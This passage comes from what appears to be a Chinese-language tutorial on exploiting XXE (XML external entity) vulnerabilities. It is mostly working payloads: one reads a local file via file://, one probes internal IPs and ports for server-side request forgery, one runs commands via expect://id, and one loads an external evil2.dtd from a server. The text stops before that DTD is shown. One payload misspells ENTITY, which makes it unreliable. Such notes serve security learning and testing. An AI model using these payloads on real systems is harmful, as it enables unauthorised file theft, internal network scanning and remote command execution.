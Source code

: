 本地D盘下存在一个名为`www.txt`的文件，内容是`123456789`，利用该XXE漏洞进行读取，则payload如下：

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
		<!ENTITY xxe SYSTEM "file:///D:/www.txt">
]>
<x>&xxe;</x>
```

成功读取

![](https://img.yatjay.top/md/202203152105019.png)

### XXE漏洞内网探针或攻击内网应用(触发漏洞地址)

#### 用法

```xml
<?xml version = "1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTYTY rabbit SYSTEM "http://内网IP:端口/文件名">
]>
<x>&rabbit;</x>
```

**备注：**上面的ip地址假设就是内网的一台服务器的ip地址。还可以进行一个端口扫描，看一下端口是否开放。

#### 利用

如果访问成功，则会通过Web服务器访问内网地址，可以利用此漏洞

1. 探测该内网IP的指定端口是否开放：引号内写成`http://内网IP:端口`
2. 若有端口开放，则探测该内网IP的指定文件是否存在：引号内写成`http://内网IP:端口/文件名`



### XXE漏洞进行RCE

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [
		<!ENTITY xxe SYSTEM "expect://id">  //id是对于的执行的命令。
]>
<x>&xxe;</x>
```

**备注：**需要目标服务器时安装expect扩展的PHP环境里执行系统命令。条件较为苛刻，实战情况比较难碰到。

### XXE漏洞引入外部实体DTD

#### 用法

相当于让目标服务器访问外部链接，使得外部`.dtd`文件(相当于一种xml文件)的内容，被目标服务器当做`.xml`文件来执行。即核心代码payload写在外部的`.dtd`文件中

```xml
<?xml version = "1.0"?>
<!DOCTYPE test [
		<!ENTITY % file SYSTEM "http://127.0.0.1/evil2.dtd">
		%file;
]>
<x>&send;</x>
```
下面的是我们外部的写入文件`evil2.dtd`的内容
